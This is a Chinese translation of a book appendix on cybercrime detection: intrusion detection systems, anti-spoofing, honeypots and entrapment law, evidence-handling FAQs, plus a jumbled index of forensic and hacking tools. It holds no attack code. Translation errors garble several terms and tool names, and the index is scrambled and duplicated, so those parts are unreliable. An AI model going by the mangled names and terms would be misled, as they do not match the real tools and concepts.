之前，我们提到过防火墙和其他简单的边界设备在观察、识别和识别其监控的流量和收集的日志文件中可能存在的攻击特征方面，缺乏某种程度的智能。在不指责此类系统能力的情况下，这种缺陷解释了为什么入侵检测系统（通常缩写为 IDS）在帮助维护适当网络安全方面变得越来越重要。

# 商业入侵检测系统


# 附录 A • 在 Windows 和 *nix 上实现网络犯罪检测技术

边界设备可能会收集检测（并且通常是阻败）可能正在开始或可能正在进行的攻击所需的所有信息；它们并未被编程为能够检查并检测与已知攻击特征匹配的流量类型或网络行为模式，也无法提示潜在的未识别攻击正处于萌芽阶段或进行中。

简而言之，定义入侵检测系统（IDS）最简单的方法可能是描述为一种专用工具，该工具知道如何读取和解释来自路由器、防火墙、服务器和其他网络设备的日志文件内容。此外， IDS 通常会存储一个已知攻击特征的数据库，并将其在监控的日志中看到的活动、流量或行为模式与这些特征进行对比，以识别特征与当前或近期行为之间何时发生高匹配匹配。在此时，IDS 可以发出警报或告警，采取各种自动行动（范围涵盖从关闭互联网链接或服务器到启动回溯），并尝试通过其他方法识别攻击者，并积极收集其邪恶活动的证据。

以此类比，针对网络的 IDS 就像防病毒（AV）软件软件包对进入系统的文件所做的那样：检查网络流量内容以寻找并偏离可能的攻击，正如防病毒软件软件包检查传入文件、电子邮件附件、活跃的 Web 内容等的内容，以寻找病毒特征（与已知恶意软件匹配的模式）或可能的恶意行为（至少是可疑的、如果不是完全不可接受的行为的行为模式）。

更具体地说，入侵检测意味着检测对系统或网络的未经授权的使用或攻击。IDS 的设计和使用是为了检测，然后是偏离或检测（如果可能的话）此类攻击或对系统、网络及相关资源的未经授权的使用。像防火墙一样，IDS 可以是基于软件的，也可以结合硬件和软件（以预安装和预配置的独立 IDS 设备的形式存在）。通常情况下，IDS 软件运行在与防火墙、代理或其他边界服务运行相同的设备或服务器上；未运行在安装防火墙或其他服务的同一设备或服务器上的 IDS 将严密且仔细地监控这些设备。尽管此类设备往往运行在网络边缘，但 IDS 系统也可以检测并处理内网攻击以及外部攻击。

# 入侵检测系统的表征

IDS 决于若干标准而有所不同。通过解释这些标准，我们可以解释你可能会遇到什么类型的 IDS 以及它们是如何工作的。首先，可以根据它们监控的活动、流量、事务或系统类型来区分 IDS。在这种情况下，IDS 分为基于网络（network-based）、基于主机（host-based）和基于应用（application-based） IDS 类型。监控网络骨干并寻找攻击特征的 IDS 称为基于网络的 IDS，而在主机上运行以防御和监控操作系统及文件系统入侵迹象的 IDS 称为基于主机的 IDS。某些 IDS 仅监控特定应用程序，是基于应用的 IDS。（这种处理方式通常保留给重要的应用程序，如数据库管理系统、内容管理系统、会计系统等。）继续下读以了解这些不同的 IDS 监控方法：

-   **基于网络的 IDS 特性**
    - **优点：** 基于网络的 IDS 即可监控整个大型网络。基于网络的 IDS 是被动式设备，可以监控网络活动而不会对网络产生重大开销。它们易安全，甚至难以被攻击者发现；部署和使用的开销较小。
    - **缺点：** 基于网络的 IDS 可能无法有效地监控和分析繁忙网络上的流量，因此可能会忽略高峰流量期间的攻击。通常，基于网络的 IDS 无法分析加密数据，也不会报告。因此，基于网络的 IDS 需要网络管理员的人为干预来评估报告攻击的影响。

-   **基于主机的 IDS 特性**
    - **优点：** 基于主机的 IDS 可以以高详细程度分析主机上的活动；它通常可以确定哪些进程或用户参与了恶意活动。尽管它们关注单个主机，但大多数基于主机的 IDS 使用代理-控制台模式，代理运行在主机上但报告到中央控制台（以便控制台配置、管理和汇总来自多个主机的数据）。基于主机的 IDS 可以检测到网络 IDS 无法检测的攻击，并能准确地评估影响。基于主机的 IDS 可以利用主机加密服务来检查加密数据、存储和活动。它们在交换网络上运行没有困难。
    - **缺点：** 数据收集在主机上进行；写入日志或报告需要网络流量并可能降低性能。入侵主机的聪明攻击者还可以攻击并禁用基于主机的 IDS（因为它们可能会阻止流量到达运行的主机，或阻止向网络其他地方控制台报告此类攻击）。最重要的，它消耗时间、存储、内存和其他资源。

-   **基于应用的 IDS 特性**
    - **优点：** 基于应用的 IDS 集中于特定应用程序内发生的事件。它们通常通过分析特定应用程序内的事件来检测攻击。通过创建正常行为基准，基于异常的 IDS 可以观察当前行为何时从统计上偏离常态。这可以识别攻击。
    - **缺点：** 基于应用的 IDS 有时更容易受到攻击。在实践中，大多数环境使用基于特征和基于异常检测的组合。


# 216 附录 A • 在 Windows 和 *nix 上实现网络犯罪检测技术

今天，许多防病毒（AV）软件包都包含基于特征和基于异常的检测特性，但并非所有的入侵检测系统（IDS）都包含了这两种方法。

最后，某些 IDS 能够在攻击发生时做出响应。这种行为从两个角度来看都是理想的。首先，计算机系统可以追踪行为和活动，并在攻击早期更快速、更果断地做出响应。由于自动化有助于黑客发起攻击，理所当然，它也应该帮助安全专业人员在攻击发生时将其击退。另一方面，IDS 是 24/7 运行的，但网络管理员在非工作时间的响应速度可能没有高峰时段那么快（即使 IDS 能够通过警报提醒他们攻击已经开始）。通过对来自一个或多个攻击地址的入站流量实施自动化响应，IDS 可以停止正在进行的攻击，并阻止来自同一地址的攻击。

通过实施以下技术，IDS 可以防御专家和新手黑客。虽然专家更难被完全阻止，但这些技术可以显著减慢他们的速度：

- 通过向攻击者连接中注入重置包（reset packets）来中断 TCP 连接，会导致攻击瓦解。

- 部署自动数据包过滤器来阻止路由器或防火墙将攻击数据包转发到服务器或受攻击目标，这可以制绝大多数攻击——即使是 DoS 或分布式拒绝服务（DDoS）攻击。这对于攻击者地址以及针对受攻击协议或服务的数据包有效（可以说，这是通过在高级研究计划署 [ARPA] 网络模型的不同层上拦截流量来实现的）。

- 为路由器、防火墙或服务器部署自动断开功能，可以在其他措施无法阻止攻击者时停止所有活动（例如在极端的 DDoS 攻击情况下，如果过滤措施在互联网链路的互联网服务提供商 [ISP] 侧有效，如果无法在更上层的 ISP 链，则应尽可能在互联网骨干网侧使其有效）。

- 积极寻求反向 DNS 查询或其他尝试建立黑客身份的方法，是某些 IDS 使用的技术，它可以向攻击者和受攻击者之间使用路径上的所有 ISP 发送恶意活动报告。由于此类响应本身可能会引发法律问题，专家建议在以同样的方式回击黑客之前获得法律建议。

# 在 Windows 和 *nix 上实现网络犯罪检测技术 • 附录 A 217

> 注意
> 如需访问 IDS 技术的大量文章和资源，请访问 http://searchsecurity.techtarget.com 并使用该网站的搜索引擎，将“intrusion detection”作为搜索字符串生成结果。

# 商业 IDS 厂商

数以百计的供应商提供了各种形式的商业 IDS 实现。最有效的解决方案结合了基于网络和基于主机的 IDS 实现。同样，大多数此类实现主要基于特征，仅在特定产品或解决方案中包含有限的异常检测能力。最后，大多数 IDS 包含某些有限的自动响应能力，这些能力通常集中在自动流量过滤、拦截或最后的自动断开。尽管某些系统声称能够对攻击发起反击，但最佳实践表明，自动识别和回溯设施是此类设施提供的最有用的方面，因此也是最可能被使用的。

大量的潜在供应商可以为公司和组织提供 IDS 产品。在不专门背书任何供应商的情况下，以下提供了该产品领域最广泛使用和最为人知的解决方案：

- 思科（Cisco Systems）可能以其交换机和路由器闻名，思科同时也提供了大量的防火墙和入侵检测产品（www.cisco.com）。

- GFI LANguard 是一系列监控、扫描和文件完整性检查产品，提供广泛的入侵检测和响应能力（www.gfi.com/langguard）。

- Network-1 Security Solutions 提供了多系列桌面和服务器（基于主机）入侵检测产品，以及集中式安全管理设施和防火墙（www.network-1.com）。

- Tripwire 可能是所有文件完整性和签名检查工具供应商中最著名的（这些工具也被称为 Tripwire）。但 Tripwire 为路由器、交换机和服务器提供了完整性检查产品，并为其各种产品提供了集中管理控制台（www.tripwire.com）。

# 现场

# 权衡 IDS 选项

除了上述提到的各种 IDS 厂商外，明智地使用良好的搜索引擎可以帮助网络管理员识别出更多潜在的 IDS 供应商，而他们从未有时间或精力去详细调查。这就是为什么我们敦促管理员考虑另一种替代方案：将组织的部分或全部网络安全技术决策推给一种特殊的外包公司。作为托管安全服务提供商（MSSPs），这些组织可以帮助客户选择、安装和维护匹配的先进安全策略和技术基础设施。执法人员可能会发现，这些组织在处理技术问题或破解 IT 谜题时，是信息、帮助和支持的专业来源。

# IP 欺骗和其他反检测战术

尽管你尽力回溯不受欢迎的电子邮件或攻击流量，有时你仍然无法确定其真实来源，或识别出该活动背后的个人。这种现象的主要原因是，黑客通常生成的网络流量或消息在源地址、端口号、协议 ID 以及其他信息上包含伪造数据，而这些信息通常允许将此类信息确定性地与源 IP 地址关联起来，如果不是关联源进程标识符（以此类推，即负责创建该进程的用户或服务）。这是一种刻意且经过计算的技术，旨在防止识别攻击者，并将注意力从此类流量的真实来源转移到不知情的或未参与的第三方身上。

最常见的欺骗形式发生在攻击者试图通过外部接口插入声称来自本地网络内部的伪造流量或消息。这解释了为什么在筛选路由器和防火墙上执行的最常见反欺骗规则是：丢弃任何到达外部接口但报告其源地址本应出现在内部接口的包数据包。

# 在 Windows 和 *nix 上实现网络犯罪检测技术 附录 A 29

其他形式的欺骗可以通过回溯或反向 DNS 查询来检测，比较域名和关联的 IP 地址（如果可用），并丢弃这些信息显示不相关的数据包（例如当报告的 IP 地址源于其声称所属组织的地址范围之外时）。

欺骗流量真正的问题发生在 IDS 或人工管理员试图将流量回溯到源头以及各种需求时。例如，由于各种类型的 DoS 或 DDoS 攻击依赖受感染的中间计算机（有时被称为僵尸或代理），你很快就会理解为什么追踪到源头并不总能识别攻击者。当你确定某些攻击的源头时，你可能只能识别受害者，而不是找到指向攻击者的“冒烟枪”。策划攻击的黑客越狡猾越复杂，提供指向其互联网主要存在的直接线索的可能性就越小。相反，你的识别工作将引导你追踪一系列中介、剪刀人和匿名服务，你必须对每项服务进行调查，以寻找你追捕的网络犯罪背后主手身份的线索。

网上有大量关于垃圾邮件发送者和攻击者的信息，我们这里仅提到两个示例。要获取更多信息，可以使用良好的互联网搜索引擎搜索如“spam database”、“attacker database”、“spam prevention”等字符串：

- 所有已知的基于 DNS 的垃圾数据库列表：www.declude.com/junkmail/support/ip4r.htm


## 附录 A • 在 Windows 和 *nix 上实现网络犯罪检测技术

- 垃圾邮件发送者、骚扰者、邮件弹攻击和其他电子邮件滥用者的列表：www.ram.org/ramblings/philosophy/spam/spammers.html 和 www.spamhaus.org

## 蜜罐、蜜罐网络及其他“网络钓鱼执法”

尽管诱导黑客花费时间调查有吸引力的网络设备或服务器的策略可能会导致自身的问题，但寻找诱导入侵者进入系统或网络的方法可以增加你识别入侵者并更有效地追踪他们的几率。蜜罐（Honeypot）是一个故意暴露在公共访问下的计算机系统——通常——其明确目的是吸引并分散攻击者的注意力。同样，蜜罐网络（Honeynet）是出于相同目的而建立的网络，攻击者在其中不仅能发现漏洞的服务，还能发现漏洞的路由器、防火墙和其他网络边界设备、安全应用等。换句话之，这些在技术上等同于熟悉的警察“钓鱼”行动。


### 在机会与诱导之间寻求平衡

大多数执法人员都意识到，在设置“钓鱼”行动时必须走好一条细微的界限——这种行动中警察假装成受害者或犯罪参与者，目标是让犯罪嫌疑人在他们面前实施非法行为。大多数州都有禁止“诱导犯罪”的法律；即执法人员不允许导致某人实施犯罪，然后因其犯罪行为对其进行逮捕。诱导犯罪是诉讼中的一种辩护理由；如果被告能够证明自己是落入陷阱，结果将是无罪。

然而，法院传统上认为，仅为犯罪分子提供犯罪机会并并不构成诱导犯罪。诱导犯罪涉及使用劝说、胁迫或其他不当压力来强迫某人实施其在没有这些压力下本不会实施的犯罪。

```text
基于这一裁定，设置蜜罐或蜜罐网络就像是（完全合法的）警察战术：在路边一辆遗弃的汽车旁观察它，看是否有人尝试对其进行入室盗、破坏或盗窃。还需要注意的是，诱导犯罪仅适用于执法人员或政府人员的行为。无论对目标施加多大的压力使其犯罪，平民都不能进行诱导犯罪。（然而，平民可能因导致他人实施犯罪而面临其他指控，例如犯罪唆或犯罪共谋。）

以下是蜜罐和蜜罐网络的典型特征：

- 用作诱饵的系统或设备采用“开箱即用”的默认安装，使其故意暴露于所有已知的漏洞、利用程序和攻击。

- 用作诱饵的系统或设备不包含任何真实的敏感信息——例如组织必须依赖或必须绝对保护的密码、数据、应用程序或服务——因此这些诱饵可以被破解或销毁，而不会对呈现这些攻击的组织造成真实的损害、损失或伤害。

- 用作诱饵的系统或设备通常包含故意诱人的对象或资源，例如名为 `password.db` 的文件、`Top Secret` 文件夹等——这些仅由加密的垃圾数据或无实际意义或价值的日志文件组成——吸引并保持攻击者的兴趣足够长时间，以便回溯识别攻击的源点。

- 用作诱饵的系统或设备还包含或由被动应用程序监控，这些程序可以在攻击或入侵发生时立即检测并报告，以便尽早开始回溯和识别过程。

尽管这种技术确实有助于识别警觉且不成熟的攻击者，但它存在吸引额外注意力或来自精明攻击者的风险。蜜罐或蜜罐网络一旦被识别，通常会在黑客留言板或邮件列表上公开，因此比通常情况下更容易受到攻击和黑客活动的影响。同样，如果设置蜜罐或蜜罐网络的组织本身被识别，其生产系统和网络也可能面临比通常更多的攻击。

www.synergy.com

蜜罐技术最好适用于公司或组织雇佣了全职 IT 安全专家、能够定期监控并处理这些诱饵的情况，或者当执法部门行动在“虚拟钓鱼”行动中寻求针对特定的嫌疑人时。在这些情况下，风险无疑会被充分理解，适当的安全预防措施、流程和程序可能已经到位（并得到了妥执行）。尽管如此，对于寻求更主动地识别和追踪攻击者的组织来说，蜜罐和蜜罐网络可以提供价值工具来协助此类活动。

在 http://searchsecurity.techtarget.com 或 www.techrepublic.com 上搜索这两个术语，可以在网上找到大量关于蜜罐和蜜罐网络的优质资源。www.honeynet.org 上的蜜罐项目可能是网上关于该主题最好的综合资源；它不仅提供了关于定义和记录标准蜜罐和蜜罐网络工作的大量信息，在探索黑客的心态、动机、工具和攻击技术方面也做得非常出色。

## 总结

为什么网络犯罪检测对调查人员很重要？只有通过检测到网络犯罪已经发生（或正在发生），调查人员才能领先犯罪分子一步，并在线索仍然“热””时开始调查。此外，只有当检测或观察到可疑活动时，调查人员才知道获取、保护和准备必要证据的步骤，这些证据对于任何形式的法律指控成立都是必要的。通过追踪攻击流量从目标回溯到源头——即使这些源头仅指向受害者而非真实的攻击者（这可能发生）——调查人员可以与服务提供商合作，告知他们并帮助管理员和安全人员防止此类攻击再次发生。


## 附录 A • 在 Windows 和 *nix 系统上实施网络犯罪检测技术

记录非法或非意的活动，并协助识别相关方。请注意，边界设备、Windows 以及 UNIX/Linux 系统都有其自己的启用和记录此类数据的方法，但对于那些知道要请求什么以及去哪里寻找的人来说，这些证据是可以很容易获取的。

在网络安全的主动预防系统方面，必须配置边界系统和服务器以防止或偏离常见的攻击，同时审计并记录与相关活动发生的任何证据。日志数据通常包括时间戳、假定的源地址和域名，以及其他可用于将攻击溯到其源系统的信息。电子邮件也包含类似的信息，因此垃圾邮件可以通过其从发送者到最终接收者之间转发邮件的系统进行追溯。然而，此类痕迹往往只指向额外的受害者或网络犯罪的无辜参与者，而不是真正的作案者。

在追踪网络犯罪的起源及其攻击点路径时，调查人员会发现许多信息的工具和实用程序。防火墙、过滤路由器和入侵检测系统（IDS）通常可以自动寻找并获取此类信息，而且存在许多 Windows 和 Linux 或 UNIX 工具可以手动重新获取或确认此类信息。IT 和执法专业人员应了解如何使用此类命令和实用程序，特别是那些帮助 IP 地址与域名之间转换以及反之的工具，以帮助识别攻击路径上的点及其最终起源。

IDS 不仅有助于检测和主动阻止网络犯罪，还能帮助收集有关其攻击模式、相关活动的特定细节等的证据。许多 IDS 基于所谓的“攻击特征码”运行，这些特征提供了特定的攻击模式、网络流量或行为，可以通过与正在进行的网络活动进行比较，以便在攻击发生时识别（有时甚至阻断）攻击。像防毒软件（AV）软件及其数据库一样，IDS 必须不断更新以保持其攻击特征码最新。某些 IDS 还试图识别系统或网络上可能尚未定义的异常行为。此外，IDS 可以关注单个主机、应用程序或网络，作为一种检测潜在攻击的方法，因为特征码可能无法涵盖这些。

尽管调查人员具有追踪攻击和识别其起源点的实际能力，但欺骗技术往往会破坏他们识别网络犯罪真实作案者的努力。通常，网络犯罪中的初步嫌疑人事实证明他们也是网络犯罪的受害者，使其成为真实作案者的中间人，


或者他们可能是源自其他活动的无辜参与者。这就是为什么在配置防火墙、过滤路由器等时，反欺骗技术是重要的组成部分以避免潜在攻击，以及为什么调查人员必须准备好进一步追踪攻击轨迹，而不是依赖最初可用证据所显示的内容。

某些公司和组织可能会选择向攻击者暴露故意的诱饵——有时被称为蜜罐（对于作为诱饵的单个系统）或蜜罐网（对于作为诱饵的整个网络），作为吸引他们注意力的方式，然后分散他们足够的时间，以增加识别相关犯罪者的概率。虽然这种策略确实带来一些额外的风险（类似于保险专业人员所谓的“有吸引力的危险”或执法专业人员可以轻易识别的“钓鱼执法”），但只要实施和实践得当，它就能产生明确、可用的结果。

从最终分析来看，安全的适当实践包括对潜在的入侵或破坏进行计划，并配备相应的工具和设置以提供非法或意外活动存在和运行的证据。由于此类证据对于检测网络犯罪、防止再次发生以及实现成功起诉至关重要，它是任何安全策略的关键元素。这也解释了为什么追踪和监控代表了这种基本的“现实检查”，以确保安全工作正常进行，并在不可预见的的攻击或漏洞发生时能够进行处理。

## 常见问题

Q：在调查网络犯罪时，IT 或执法专业人员应该采取哪些步骤对日志、审计轨迹和其他潜在证据源或支持数据进行清单管理？

A：这个问题的简单回答是清单管理、检查、过滤、记录和保存。让我们详细说明一下：

- **清单管理**：对所有使用的防火墙、过滤路由器、IDS、系统和服务器进行清点，攻击轨迹可能通过这些系统，或者攻击活动可能集中在这些系统。检查每个元素以识别相关的日志文件或审计轨迹，并记录它们的名称和位置。
- **检查**：检查各种日志文件或审计轨迹，以确定它们是否包含与正在调查事件相关的任何证据痕迹的记录或条目。如果是，将每个此类审计轨迹的名称和位置添加到你的证据文件列表中。
- **过滤**：数学专业人士将这一步称为数据归约，因为它忽略了与你正在调查的事件无关的条目，只收集与当前事项相关的条目。大多数日志或事件查看器都包含强大的过滤工具——那些工具通常不会导入到电子表格或数据库中，那些应用程序的内置搜索工具可以帮助你将重要的和不重要的分开。确保你的笔记包含名称和位置。
- **记录**：解释捕获的条目，从而提供网络犯罪的证据。此外，详尽记录原始源，包括它们的位置；当前文件名等。
- **保存**：采取所有必要步骤保存原始数据。这可能需要从系统中拆除硬盘，甚至使其停止服务。

Q：鉴于需要解释某些特定日志文件或事件追踪的内容，调查人员如何获得必要的信息？

A：我们已经反复指出，尽管在多个操作系统中，在日志和事件追踪中记录的类型类型是相似的，但细节根据每个系统而异。为了记录日志文件和事件追踪的布局并解释其意义，你将需要联系相关操作系统、应用程序或设备的供应商，并要求该公司向你提供文档。在许多情况下，如果你使用该供应商在其网站上的搜索引擎，或咨询其技术支持数据库或其他供应商在线提供的其他资源，你就可以自己找到这些信息。如果这没有产生所需的结果，你可能需要拨打供应商的技术支持部门并寻求协助以识别和获取正确的信息。在大多数情况下，这应该是一个完全常规的事务并且相对容易处理。

Q：组织如何确保 IDS 和其他边界设备完全更新，并且它们包含了最新的攻击特征码、补丁、修复程序等？

A：在大多数情况下，提供 IDS 或其他边界设备的系统或软件供应商还将提供通知服务、在线更新信息，甚至可能提供供你评估此类系统或服务的数据库、补丁和修复程序状态的工具。通常，在供应商的网站上搜索相关产品将提供指向此类信息的直接指针，因为供应商对该信息重要性和紧迫性的了解与其客户一样。如有疑问，联系供应商的技术支持部门。在这里，获取这些信息（或指向这些信息的指针）应该是完全常规的事务且易于完成。

Q：如果一个组织遭受了看起来是未知的或似乎没有特征码可用的攻击，应该如何向谁报告这类信息？

A：免受首个（或某种早期实例的）攻击的概率并不低，但某一个倒霉的组织不可避免地成为第一个受害者


# 附录 A • 在 Windows 和 *nix 上实现网络犯罪检测技术

漏洞或在攻击发生时可能会遭受尚未记录在案的攻击。当这种情况发生时，通知所有可能相关的方是非常关重要的，包括以下人员：

- 通知你的上游 ISP 以及任何可能位于你的网络和互联网之间的其他上游 ISP。

- 联系任何处理此类攻击相关流量的供应商，包括防火墙、代理服务器、筛选路由器、IDS、应用程序、杀毒软件（AV，如适用）以及操作系统供应商。大多数公司都为想要报告安全事件的客户提供了其提供的正式报告机制。如果你能提前识别这些公司，将会有帮助，这样在事件发生期间就不会因为研究这些信息而减慢你的响应速度。

- 还应通知所有大型通用事件清理中心，包括 www.cert.org，以及关注你特定行业或市场细分领域的安全组织。

- 在美国，如果你所在的州有涵盖网络攻击的刑事法律（如未经授权的访问或对网络服务的拒绝/中断），请联系当地警察局或治安官办公室。

- 在美国，联邦调查局（FBI）和秘密服务局（Secret Service）制定了旨在鼓励公司报告网络攻击的指南。详细信息请参见 www.cio.com/research/security/incident_response.pdf 上的 CIO 网络威胁响应与报告指南（PDF 格式）。

- 在美国境外，请联系负责制定和执行网络犯罪法律的国家或区域机构。

# 索引

A
活跃网络粉碎 (Active Network Smashing)。见 hping2, 黑客工具
活跃 Unix 域套接 (Active Unix Domain Sockets), 90–91
启用 ActiveX 的 Web 浏览器, 185
地址解析协议 (ARP) 缓存, 51
基于 Adore 的根程序 (Adore-based rootkits), 157
AOL IM 流量, 146
“案例笔记”（Case Notes）（工具), 44
/cdrom, 30
chmod 命令, 26–27
ClamAV
下载与安装, 190–191
更新病毒数据库文件, 191–192
cmdline 文件, 54
command, 20–24
commandname, 29
磁盘转储 (disk dump), 56–59
less, 76, 81
ismod, 166
kof, 49, 95–97
mkdir /mnt/disk 42
mount, 31
netstat, 89–90
ps ax and top, 93
strings, 78
structure, 83
who and w, 87–88
命令补全, 25
计算机法调查员, 104
与主机连接, 47–48
控制台启动消息, 16
Core Impact (CI), 120–121
cpuinfo 文件, 155–156
Cron 任务 (Cron Jobs), 176

B
BackTrack2, 62–63
伯克利软件发行 (BSD), 11
进程状态代码, 94
ps ax 命令, 93
/bin/bash, 177
/bin/ping, 27
/boot, 30
可启动的 Linux 操作系统
BackTrack2, 62–63
Linux 版 EnCase (LinEN), 63–65
HELIX, 60–61
Knoppix, 61–62
Bourne Again Shell (bash), 20
nsns, 86

C
Canvas, 渗透测试工具, 120–121
案例日志准备
管理信息, 47
与主机连接, 47–48
事件概况, 43
工具和命令, 44–45
用户 ID, 48
易失信息, 46–37

D
date 命令, 47
非军事化区 (DMZs), 110
/dev/hda1, 57–59
设备标识符, 42
/dev/mem, 53
/dev/sda1, 30, 32–33

# 索引

磁盘转储命令 (disk dump command)
镜像过程, 56–59
变体, 56
diskstats, 156
DMZs (非军事化区), 110
driller, 87
驱动/rtc 文件, 156
动态关键字列表
文件和目录名, 79
IP 地址和域名, 80
工具关键字, 80
/proc 文件系统, 53
运行中的进程, 48–49
shell 历史记录, 48
嗅探器 (sniffer), 51–52
使用数据包网络 (ping)
扫描, 52
易失信息, 46–47
执行权限, 27–28
EXT2/3 架构, 189
Ext2/3, 35–36

E
Linux 版 EnCase (LinEN), 63
命令行模式, 64
镜像获取, 64–65
environ 文件, 161
道德黑客 (Ethical Hacker), 104
Ettercap, 黑客工具
中间人攻击 (MITM attacks), 150–151
配置文件详情, 147–148
使用以下工具嗅探流量：
AOL IM 流量, 146
加密的 SSH 流量, 150
未加密的协议, 148–150
IP 地址的 ARP 缓存
案例日志准备, 44
相关命令, 44–45
与...连接, 47–48, 50
可执行文件, 49
文件描述符 (fd)
子目录, 53–54
事件概况, 43
用户信息, 55
操作系统和主机, 52
带 PID 的进程, 54–55

F
FAT, 文件系统, 34–35
Fedora Core 8 Linux 机器, 195
文件名补全, 25
定义, 27
/etc/passwd, 26
隐藏文件, 181–182
最近修改/访问/创建的 la, 179
SGID root 文件, 178–179
系统文件, 180
Ext2/3, 35–36
FAT 和 NTFS, 34–35
文件传输协议 (FTP), 101, 187
法证笔记本电脑
镜像获取, 58, 67
以及目标系统, 56
创建挂载点到, 75
添加目标媒体, 66
Freshclam, 用于更新病毒数据库文件, 191
FTK Lite, 67
客户端/服务器模型, 110
在 Ubuntu 上配置和运行
Gutsy 7.10, 111–112
插件, 113
端口, 114–115
漏洞, 111

G
通用陈述, 29–33
GNU 调试器, 157
统一引导加载程序 (GRUB), 170
图形用户界面 (GUI), 94
被 grep 查出的用户名, 78–79
组 ID (Group ID), 29
基于 GUI 的系统
FTK Imager, 65–67
ProDiscover, 68–69

Netcat
TwoFish, 106
UNIX 工具, 105
Nikto, 116–118
Nmap, 106–110
Paros
爬虫扫描, 133–135
针对 Lotus Domino, 135
Web 流量拦截与操纵, 136
Wireshark, 118–119
TCP 流量, 126–127

H
黑客工具, 105
Canvas/Core Impact, 120–121
ettercap
中间人攻击 (MITM attacks), 150–151
配置详情, 147–148
使用以下工具嗅探流量：
AOL IM 流量, 146
加密的 SSH 流量, 150
未加密的协议, 148–150
地址欺骗 (nspoofing), 源地址, 139
Metasploit 框架
管理员 shell, 127–128
反病毒软件漏洞, 123
内存使用, 124–125
基于 Ruby 的 GUI, 122–123
针对 Windows 2000 服务器, 125–126
版本 3.1, 121

Helix 1.9a
法证与响应程序, 61
/home, 30–31
Heroin 根程序, 157

Knoppix 基于的系统, 60

I
ICMP 数据包，传输, 143
主机中的 ICMP 流量, 54
初步分检 (Initial Triage)

文件系统, 34–36
法证。
格式化过程，驱动器, 42–43
命令, 42
挂载, 31
隐藏文件, 181–182
关键字搜索, 77–82
Linux 命令, 76–77
滚动存档, 75
挂载点, 31
磁盘, 32
NTFS 分区, 33
安全模型
身份验证, 25
文件权限, 26
设置 GID 权限, 27
SUID root 副本, 27
客户需求, 73–74
关键字搜索, 77–82
日志文件分析, 74–77
InSIDE 救援工具 (INSERT), 63
基于互联网的事件调查, 41
IP (网协议), 105
ISO 文件, 144

K
用户账户, 25
strings 命令, 77–78
病毒, 185
kcore 文件, 157–158
kcore 法证, 53–54
kcore_strings
文件搜索, 80–81
针对 nc 的, 82–83
关键字搜索
Ubuntu 7.10 (Gutsy) 机器, 82
使用 netcat, 83–84
虚拟化工具, 85

L
less 命令, 76
LinEn (Linux 版 EnCase), 63–65
Linux, 10
启动过程
init 和运行级别, 171–335
内核加载, 170
发行版, 120
Kubuntu, 18


# IDS 233

- 操作系统 (OSes) 与主机, 52
- 带 PID 的进程, 54–55
- /proc 文件系统, 53
- 运行中的进程, 48–49

- IDS 签名开发, 121
- 日志关联, 133
- 内存占用, 124–125
- 基于 Ruby 的 GUI, 122–123

- shell 历史, 48
- 嗅器, 51–52
- 使用 Packet Internet Groper (ping) 扫描, 52
- 易失信息, 46–47

- 版本 3.1, 121
- 以及 Web 接口，证据，自 129–130 页
- Windows 2000 SP 4攻击, 125–126
- MITM 攻击（中间人攻击）, 150

- Linux 加载器 (LILO), 170
- Linux shell, 18

- mkdir /mnt/disk 命令, 42
- /mnt 和 /media, 30
- 更多, 76

- 与 Windows 命令行提示符对比, 20
- 文件名补全和命令补全, 25

- mount 命令, 31
- Linux 机器上挂载外部硬盘, 41

- 查找终端程序, 19
- List Open Files (lsof) 命令
- 控制台访问, 96–97
- +L1 交换, 97
- wc -l, 96

- mkdir /mnt/disk 命令, 42
- 针对 Windows, 41
- 挂载点 cdrom, 30

- 局域网 (LAN), 177
- 定位 bash_history, 86
- Linux 系统中的日志文件, 176
- shell 历史文件, 177–178
- utmp 和 wtmmp, 177
- ls 命令, 28
- imodod 命令, 166
- lsof 命令, 49, 95–97
- isubub 命令, 42

- 定义, 31
- NTFS 分区, 33
- umount 命令,以及 33–34
- 多行终止文件, 161

# N

- 美国国家安全局 (NSA), 100
- “负面证据”, 40
- Nessus

- Apache Web 服务器, 110
- 客户端/服务器模型, 110
- 在 Ubuntu 上的配置与运行
- Guts 7.10, 111–112
- 插件, 113
- 端口, 114

# M

- 恶意软件编码员, 189
- 介质访问 (MAC) 地址, 51
- 消息摘要算法 5 (MD5), 45, 188
- Metasploit 框架 (MSF)
- 管理命令 shell, 127–128
- 反病毒漏洞利用, 123
- 二进制文件, 87
- 与 localhost 的连接, 129
- 目标, 114–115
- 漏洞, 111
- 网络基础输入输出系统 (NetBIOS), 101
- 网络连接
- 标志位拆解, 92
- I-Node 和路径, 91


# Index

- 网络连接（续）
- netstat “an” 命令，Unix 套接字, 90–91
- netstat “rn” 命令，路由表, 92
- 网络文件系统 (NFS) 服务, 57–59, 158, 179
- 网络接口卡 (NIC), 51, 59
- 网络映射器 (nmap), 106–110
- 新技术文件系统 (NTFS) 驱动程序用于61–62
- 内部安全工具 (INSERT), 63
- 网络接口卡 (NIC), 51, 59
- Nikto
- 主机名识别, 117
- 开源 (GPL) Web 扫描器, 116
- 主要目标, 118
- Snoop1，搜索, 116–117
- NIST SP 800–61, 43–44
- nmap (网络映射器)
- 默认模式, 107
- 特权用户扫描, 108–109
- NSA (国家安全局), 100
- NTFS, 34
-  Lotus Domino, 135
- 原始响应, 137
- Web 流量，拦截与操纵, 136–137
- 补丁管理, 101
- Pidgin, 93
- 良好隐私 (PGP) 签名, 187
- 主要组 ID (GID), 174
- 进程 ID (PIDs), 53–54, 155, 159–160
- /proc 文件系统, 53
- 内容，应急响应
- cmdline, 155
- cpuinfo, 155–156
- diskstats 和 driver/rtc, 156
- sysms 和 kcore, 157–158
- 模块和挂载, 157–158
- 分区，uptime 和 sys/, 159
- 在 Fedora Core 8 Linux 系统中
- 内容, 154–155
- 进程 ID, 159–162
- 虚拟文件系统, 154
- /proc, 77–78
- /proc/sys 目录, 159
- Discover,30–31
- ps aux 命令, 93
- 伪文件系统。见虚拟文件系统
- OEM CD 刻录, 14
- 按需恶意软件扫描软件, 184
- /opt, 30
-  inode, 180–181
- Packet Internet Groper (ping) 扫描, 52。见 Linux 分析
- Panda 防病毒软件, 193
- Parrot，黑客工具
- Google 搜索流量, 134–135
- RC 脚本, 50
- 写权限, 27
- 侦察工具
- Canvas/Core Impact, 120–121
- Ettercap, 144–151
- hping2, 138–144
- Metasploit 框架 (MSF), 121–133
- Nessus, 110–115
- 网络映射器 (nmap), 106–110
- Nikto, 116–118
- Parrot, 134–138
- Wireshark, 118–120
- RedHat 图形启动 (GRUB) 界面, 155
- 根目录, 29
- 运行 (RC) 级别, 49–50
